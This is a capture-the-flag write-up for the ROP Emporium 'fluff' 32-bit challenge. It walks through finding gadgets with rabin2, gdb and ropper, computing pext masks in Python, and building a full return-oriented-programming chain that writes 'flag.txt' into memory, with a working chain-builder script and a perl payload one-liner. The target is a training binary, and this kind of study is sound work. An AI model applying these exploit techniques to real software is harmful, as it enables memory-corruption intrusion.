






# fluff
The challenge is available [here](https://ropemporium.com/challenge/fluff.html).

## Black-Box Test
We were told that the current challenge is very similar to the write4 challenge. Let's take a look at the program's behavior.



There's nothing special. The index for the return address is also the same, so I omitted that from the documentation.

## In-depth research
The idea in this challenge is actually to "make do with what we have." We'll start, as usual, by gathering information and then go from there.

```
rabin2 -i ./fluff32
```


We are already familiar with `print_file`. Are there any convenient strings?

```
rabin2 -z ./fluff32
```


Of course not. What about helper functions?

```
gdb fluff32
```
```
info func
```


We already know `usefulFunction`. In contrast, `questionableGadgets` looks much more interesting (and it was also mentioned in the challenge's introduction instructions). Let's take a look to see what it has to offer.

```
set disassembly-flavor intel
```
```
disas questionableGadgets
```


In this binary, it seems that the [`xchg`](https://www.felixcloutier.com/x86/xchg) instruction is the easiest way to access memory, one byte at a time. When I explored with the tool `ropper` to look for more convenient accesses, like `mov` or perhaps `xor`, there was nothing. Therefore, we must take this gadget. From here, we also need to gather the gadget that does `pop ecx`. Apart from the gadget shown, no more convenient way was found to load `ecx`, so we need to consider the [`bswap`](https://www.felixcloutier.com/x86/bswap) operation and input the data into the register in big-endian format. Additionally, there is no convenient way to input data into `dl` (the lower part of `edx`), so we will use the gadget that performs [`pext`](https://www.felixcloutier.com/x86/pext).

All that's left is to find some `pop ebp` so that we can use the gadget that handles `edx` afterward. Therefore, we'll exit `gdb` (with the command `q`) and enter `ropper`.

```
python3 ~/ropper/Ropper.py
```
```
file fluff32
```
```
search /1/ pop ebp
```


Perfect, we have everything in terms of gadgets, and we can exit ropper (with the command `quit`). Still, there’s one question left: what will be the value of `ebp` when we use the gadget that performs `pext`?

To answer this question, we need to learn about the [`pext`](https://www.felixcloutier.com/x86/pext) operation and write an 'oposite' algorithm that, given a desired output from `pext` (One of the characters in the string "flag.txt" in our case) and a value (`0xb0bababa` in this case), generates a mask. This algorithm is very simple, and I've written it in Python. All it does is iterate simultaneously over the bits of the value and the desired output, and when they match, it adds 1 to the mask; otherwise, it adds 0 and continues with the value in search of the next bit that matches the desired output.

```python
def get_mask(target, value=0xb0bababa):
    target_bits = bin(ord(target))[2:]
    value_bits  = bin(value)[2:]
    mask_bits   = ''
    
    while(target_bits):
        if target_bits[-1] == value_bits[-1]:
            mask_bits = '1' + mask_bits
            target_bits = target_bits[:-1]
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]
    
    while(value_bits):
        if value_bits[-1] == '0':
            mask_bits = '1' + mask_bits
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]
    
    return int(mask_bits, 2)

# get_mask("f") == 0x4f454b4b
# It means,
#     pext edx, 0xb0bababa, 0x4f454b4b
# Causes the binary value of `f` to be stored in `edx` (edx = 0x00000066)
```

The second loop in the algorithm aims to also add the other 0s present in the value being processed, because we want to achieve a 4-byte output without a null byte.

We will use the same memory area of the data section to ultimately store the entire string "flag.txt."

```
readelf -S fluff32 | grep -e '[.]data'
```

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                                      |
|---------------|-----------------|------------|----------------------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                                              |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed.                |
| pop_bswap_cx        | Gadget          | 0x08048558 | pop ecx;<br />bswap ecx;<br />ret;                                                         |
| pop_bp        | Gadget          | 0x080485bb | pop ebp;<br />ret;                                                                    |
| prepare_dx       | Gadget          | 0x08048543 | mov eax, ebx;<br />mov ebx, 0xb0bababa;<br />pext edx, ebx, eax;<br />mov eax, 0xdeadbeef; ret; |
| exchange_byte | Gadget          | 0x08048555 | xchg BYTE PTR [ecx], dl;<br />ret;                                                    |

And the next table describes the ROP chain itself:

| No | Logical Part | Chain Link                          | Note                                                                                                                                                                                                                                                                                |
|----|--------------|-------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1  | 1            | 44 garbage bytes                    |                                                                                                                                                                                                                                                                                     |
| 2  | 2            | pop_bswap_cx, `memory4string`       | `memory4string` in big-endian.                                                                                                                                                                                                                                                      |
| 3  | 2            | pop_bp, get_mask(`"f"`)             | The function `get_mask` calculates the bit sequence needed<br/>for a register that serves as a mask in the `xchg` instruction<br/>(with a constant value of `0xb0bababa` on which the mask operates)<br/>so that the operation produces the desired character. In this case, `"f"`. |
| 4  | 2            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 5  | 2            | exchange_byte                       | After this operation, the string will be `"f"`                                                                                                                                                                                                                                      |
| 6  | 3            | pop_bswap_cx, `memory4string+1`     | `memory4string+1` in big-endian.                                                                                                                                                                                                                                                    |
| 7  | 3            | pop_bp, get_mask(`"l"`)             |                                                                                                                                                                                                                                                                                     |
| 8  | 3            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 9  | 3            | exchange_byte                       | After this operation, the string will be `"fl"`                                                                                                                                                                                                                                     |
| 10 | 4            | pop_bswap_cx, `memory4string+2`     | `memory4string+2` in big-endian.                                                                                                                                                                                                                                                    |
| 11 | 4            | pop_bp, get_mask(`"a"`)             |                                                                                                                                                                                                                                                                                     |
| 12 | 4            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 13 | 4            | exchange_byte                       | After this operation, the string will be `"fla"`                                                                                                                                                                                                                                    |
| 14 | 5            | pop_bswap_cx, `memory4string+3`     | `memory4string+3` in big-endian.                                                                                                                                                                                                                                                    |
| 15 | 5            | pop_bp, get_mask(`"g"`)             |                                                                                                                                                                                                                                                                                     |
| 16 | 5            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 17 | 5            | exchange_byte                       | After this operation, the string will be `"flag"`                                                                                                                                                                                                                                   |
| 18 | 6            | pop_bswap_cx, `memory4string+4`     | `memory4string+4` in big-endian.                                                                                                                                                                                                                                                    |
| 19 | 6            | pop_bp, get_mask(`"."`)             |                                                                                                                                                                                                                                                                                     |
| 20 | 6            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 21 | 6            | exchange_byte                       | After this operation, the string will be `"flag."`                                                                                                                                                                                                                                  |
| 22 | 7            | pop_bswap_cx, `memory4string+5`     | `memory4string+5` in big-endian.                                                                                                                                                                                                                                                    |
| 23 | 7            | pop_bp, get_mask(`"t"`)             |                                                                                                                                                                                                                                                                                     |
| 24 | 7            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 25 | 7            | exchange_byte                       | After this operation, the string will be `"flag.t"`                                                                                                                                                                                                                                 |
| 26 | 8            | pop_bswap_cx, `memory4string+6`     | `memory4string+6` in big-endian.                                                                                                                                                                                                                                                    |
| 27 | 8            | pop_bp, get_mask(`"x"`)             |                                                                                                                                                                                                                                                                                     |
| 28 | 8            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 29 | 8            | exchange_byte                       | After this operation, the string will be `"flag.tx"`                                                                                                                                                                                                                                |
| 30 | 9            | pop_bswap_cx, `memory4string+7`     | `memory4string+7` in big-endian.                                                                                                                                                                                                                                                    |
| 31 | 9            | pop_bp, get_mask(`"t"`)             |                                                                                                                                                                                                                                                                                     |
| 32 | 9            | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 33 | 9            | exchange_byte                       | After this operation, the string will be `"flag.txt"`                                                                                                                                                                                                                               |
| 34 | 10           | print_file, `"XXXX"`, memory4string |                                                                                                                                                                                                                                                                                     |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in
    : little-endian format.
    """
    return struct.pack("<I", number)


def big_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in
    : big-endian format.
    """
    return struct.pack(">I", number)


def get_mask(target, value=0xb0bababa):
    target_bits = bin(ord(target))[2:]
    value_bits  = bin(value)[2:]
    mask_bits   = ''

    while(target_bits):
        if target_bits[-1] == value_bits[-1]:
            mask_bits = '1' + mask_bits
            target_bits = target_bits[:-1]
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]

    while(value_bits):
        if value_bits[-1] == '0':
            mask_bits = '1' + mask_bits
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]

    return int(mask_bits, 2)

# Parts of the chain
fill_buffer   = b"X"*44
print_file    = little_endian(0x080483d0)
memory4string = 0x0804a018
pop_swap_cx   = little_endian(0x08048558)
pop_bp        = little_endian(0x080485bb)
prepare_dx    = little_endian(0x08048543)
exchange_byte = little_endian(0x08048555) 

# Building the chain
print(hex(get_mask("f")))
ROP_Chain = fill_buffer

for i,c in enumerate("flag.txt"):
    ROP_Chain += pop_swap_cx + big_endian(memory4string+i)
    ROP_Chain += pop_bp + little_endian(get_mask(c))
    ROP_Chain += prepare_dx
    ROP_Chain += exchange_byte

ROP_Chain += print_file + b"XXXX" + little_endian(memory4string)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./fluff32
```

```python
def get_mask(target, value):
    target_bits = bin(ord(target))[2:]
    value_bits  = bin(value)[2:]

    mask_bits   = ''

    while(target_bits):
        if target_bits[-1] == value_bits[-1]:
            mask_bits = '1' + mask_bits
            target_bits = target_bits[:-1]
        else:
            mask_bits = '0' + mask_bits

        value_bits = value_bits[:-1]

    while(value_bits):
        if value_bits[-1] == '0':
            mask_bits = '1' + mask_bits
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]

    mask = int(mask_bits, 2)
    return mask

for c in "flag.txt":
    print(hex(get_mask(c, 0xb0bababa)), c)
```

```
perl -e 'print "X"x44 . "\xbb\x85\x04\x08" . "\x4b\x4b\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x18" . "\x55\x85\x04\x08" ."\xbb\x85\x04\x08" . "\xdd\x46\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x19" . "\x55\x85\x04\x08". "\xd0\x83\x04\x08" . "XXXX" . "\x18\xa0\x04\x08"' | ./fluff32
```